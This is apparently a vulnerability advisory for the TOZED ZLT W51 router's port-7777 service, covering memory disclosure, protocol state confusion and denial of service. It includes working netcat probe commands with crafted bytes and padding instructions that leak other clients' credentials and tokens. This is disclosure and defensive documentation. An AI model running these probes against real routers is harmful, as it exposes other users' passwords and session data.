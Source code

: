 # TOZED ZLT W51 Router Security Vulnerabilities

## 1. Basic Information

| Field | Value |
|---|---|
| **Vulnerability Type** | Information Disclosure, Memory Corruption , Denial of Service |
| **Affected Product** | TOZED ZLT W51 Router |
| **Affected Version** | Firmware up to 1.4.2 |

## 2. Executive Summary

Critical security vulnerabilities exist in the proprietary service (TCP port 7777) of TOZED ZLT W51 routers:

- **Cross-Connection Memory Disclosure**: Memory fragments from previous connections leak to new clients
- **Protocol State Confusion**: Improper state handling exposes additional memory contents
- **Denial of Service**: Extended exploitation causes service hang
  
<p align="center">
<img width="905" alt="{C784B12A-B9DA-4868-93B8-49C611D131B9}" src="https://github.com/user-attachments/assets/5870ca4f-17bd-429b-8d6c-826d4d11b254" />
</p>

## 3. Technical Details

### 3.1. Cross-Connection Memory Disclosure

When a client disconnects, server-side buffers aren't properly sanitized. Subsequent connections receive fragments of previous clients' data (usernames, passwords, tokens).

**Leak Mechanism:**
1. Attacker sends specially crafted version bytes:
   ```
   \x05\xff\x00
   \x05\x06\x00\x01... + padding until the entire buffer is leaked.
   ```
2. By varying padding bytes, attacker shifts the "leak window" through memory.

### 3.2. Protocol State Confusion Vulnerability

The router improperly handles protocol state transitions. Sending different command sequences in a single connection triggers confusion, causing:
- Memory leaks between protocol transitions
- Concatenated responses with mixed protocol headers
- Additional sensitive data exposure

### 3.3. Denial of Service Impact

An isolated service hang requiring device restart was also observed during extended memory leak exploitation, pointing to potential underlying memory corruption, although this specific crash was not consistently replicated.

### 4. Cross-Connection Memory Leak Validation

Use the following commands to confirm and quantify the buffer-residue leakage. Adjust the padding length to slide the "leak window" deeper into the stale memory region.

```bash
# Initial leak probe: triggers a small disclosure window
echo -e "\x05\xff\x00" | nc -N -w 1 192.168.0.1 7777 | xxd -g 1
```

```bash
# Extended leak probe: append N null bytes to shift the leak offset
echo -e "\x05\x06\x00\x01\x00\x00\x00\x00\x00" | nc -N -w 1 192.168.0.1 7777 | xxd -g 1
```

- **`-N`**: immediately close the write side after EOF  
- **`-w1`**: 1 second timeout to capture the server's response  
- **`xxd -g1`**: hexdump grouped by single bytes for precise inspection  

Adjust the number of trailing null bytes `\x00` to any desired padding length to iterate through successive buffer offsets.  

## 4.1. Proof of Concept

A video demonstration of the Cross-Connection Memory Disclosure vulnerability is available at:

https://github.com/user-attachments/assets/83561d25-8497-4051-bc54-301b3c2fb3f4

### 4.2 Protocol State Confusion Testing Command
```bash
(echo -e "\x05\x01\x00"; sleep 0.5; echo -e "\x04\x01\x00\x50\x08\x08\x08\x08") | nc -N -w 2 192.168.0.1 7777 | xxd -g 1
```

**Expected Results:** Response contains mixed protocol states with memory fragments from previous connections embedded between them.

![image](https://github.com/user-attachments/assets/d97b61dc-ec90-4a6d-89fa-625f0ba2b138)

Looping this for a while we start to see more garbage leaked:

![image](https://github.com/user-attachments/assets/0c29ff3c-bddc-4352-9cdf-a8b0503982fb)

An unauthenticated attacker can exploit these vulnerabilities without any credentials or prior access. In this testing exploitation occurs from the same network, the vulnerability can be exploited remotely across the internet if port 7777 is exposed through firewall rules or port forwarding configurations which will depend on how the ISP has setup the router. This allows attackers to extract sensitive data fragments and potentially disrupt service availability without requiring any authentication whatsoever.

## 5. CWE Classifications

| CWE ID | Name | Description |
|---|---|---|
| **CWE-244** | Improper Clearing of Heap Memory Before Release | Memory buffers are not cleared between connections |
| **CWE-200** | Exposure of Sensitive Information to an Unauthorized Actor | Previous connection data leaks to new clients |

## 6. Mitigations

- Disable service on TCP port 7777 if not required (this is not possible on user end on some ISP routers)
- Implement network access controls to restrict port access
- Monitor for exploitation attempts

## 7. Timeline

**Discovery:** 2025-04-10

**CNA Report Date:** 2025-05-01

## 8. Credits

Discovered and reported by Mohamed Maatallah
